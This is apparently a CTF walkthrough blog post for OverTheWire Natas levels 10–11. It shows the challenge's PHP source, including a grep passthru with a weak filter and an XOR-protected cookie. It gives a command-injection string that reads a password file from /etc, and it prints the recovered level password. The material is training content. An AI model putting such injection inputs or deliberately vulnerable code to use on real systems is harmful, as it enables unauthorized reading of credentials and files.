 ```yaml
---
layout: post
title:  "OverTheWire Wargames :: Natas :: Levels 10-20"
date:   2015-09-17
---
```


[OverTheWire: Natas](http://overthewire.org/wargames/natas/)

# Level 10 > Level 11

![natas10-01](/assets/images/otw-natas/natas10-01.png)

Source...

```html
 <html>
[...]
<body>
<h1>natas10</h1>
<div id="content">

For security reasons, we now filter on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Same as the previous challenge but now we are forbidden to use a semicolon, pipe, or ampersand.

In this case, instead of breaking out of the command we'll try to craft it to do what we want itself. By using a comment character we can eliminate dictionary.txt and insert our own choice of file. To be sure it will match, we'll search for any letter or number.

Our injection...

```
[a-z0-9] /etc/natas_webpass/natas11 #
```

The command as executed by the system...

```
grep -i [a-z0-9] /etc/natas_webpass/natas11 # dictionary.txt
```

Sweet.

![natas10-02](/assets/images/otw-natas/natas10-02.png)

U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

# Level 11 > Level 12

![natas11-01](/assets/images/otw-natas/natas11-01.png)

Source...

```html
 <html>
[...]
<?

$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

function loadData($def) {
    global $_COOKIE;
    $mydata = $def;
    if(array_key_exists("data", $_COOKIE)) {
    $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
    if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
        if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
        $mydata['showpassword'] = $tempdata['showpassword'];
        $mydata['bgcolor'] = $tempdata['bgcolor'];
        }
    }
    }
    return $mydata;
}

function saveData($d) {
    setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
}

$data = loadData($defaultdata);

if(array_key_exists("bgcolor",$_REQUEST)) {
    if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) {
        $data['bgcolor'] = $_REQUEST['bgcolor'];
    }
}

saveData($data);



?>

<h1>natas11</h1>
<div id="content">
<body style="background: <?=$data['bgcolor']?>;">
Cookies are protected with XOR encryption<br/><br/>

<?
if($data["showpassword"] == "yes") {
    print "The password for natas12 is <censored><br>";
}

?>

<form>
Background color: <input name=bgcolor value="<?=$data['bgcolor']?>">
<input type=submit value="Set color">
</form>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```



